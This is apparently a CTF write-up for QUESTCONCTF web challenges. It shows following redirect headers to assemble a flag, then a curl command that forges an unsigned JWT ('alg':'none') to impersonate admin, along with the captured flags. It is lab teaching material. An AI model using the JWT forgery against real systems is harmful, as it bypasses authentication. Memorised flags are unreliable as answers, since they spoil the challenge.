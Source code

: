 -----------------

### CTF: QUESTCONCTF

------------------

![image](https://github.com/user-attachments/assets/201d3478-4cce-4604-a4d3-be0e79a1d0f1)

------------------

### Challenges:

- Web
  - Direction
  - Theadmin
  - Temp

------------------

### WEB:

### Direction:

![image](https://github.com/user-attachments/assets/4f776a65-e2c5-4f76-b044-18c3d0f4c467)

- I loaded the site and got this

![image](https://github.com/user-attachments/assets/c01101fe-8612-40fd-93de-7997ec52e9ff)

- I decided to check for the common file `robots.txt` that we all try to find and got a disallowed page.

![image](https://github.com/user-attachments/assets/29d877b6-a391-4a21-9497-0a8a4615cba0)

- I proceeded with curl and noticed an header containing a portion of the flag and automatically redirects to the next page.At first,I couldn't use `GET` for it.I used header `OPTIONS` to find allowed http headers.

![image](https://github.com/user-attachments/assets/9ae29c4e-5969-40cc-a455-77f463277e94)

- Flag portion 1 is shown below and the next flag stop will be the path in the `Location` header.

![image](https://github.com/user-attachments/assets/05c38c13-3f18-4440-bf62-8606f38c8a79)

- I wrote a <a href="https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py">script</a> to automate it.

![image](https://github.com/user-attachments/assets/60983022-c410-4d09-9247-07294c1cdd14)

- Flag-: ```QUESTCON{mi3d1r3ct10n_15_4n_4r}```


-------------------

### Challenge 2: The Admin

![image](https://github.com/user-attachments/assets/2c893638-2ee5-4086-ba07-333a1ee1d40a)

- The index page contains the documentation for the api.Route `auth` takes in a username and returns a jwt token created with the username and route `access` takes in the cookie and displays the username.

![image](https://github.com/user-attachments/assets/0ca83b87-c8b8-4164-82f7-35f0b1b0180b)

![image](https://github.com/user-attachments/assets/d985d91e-3733-4d32-9587-6719bc838327)

- I was able to get the flag by setting the `alg` key to `none`.

```bash
curl https://questcon-theadmin.chals.io/access -H "Authorization: Bearer $(echo '{"alg":"none","typ":"JWT"}' | base64).eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5ODYwNTM2fQ"
{"flag":"QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}"}%
```

- Flag-:```QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}```












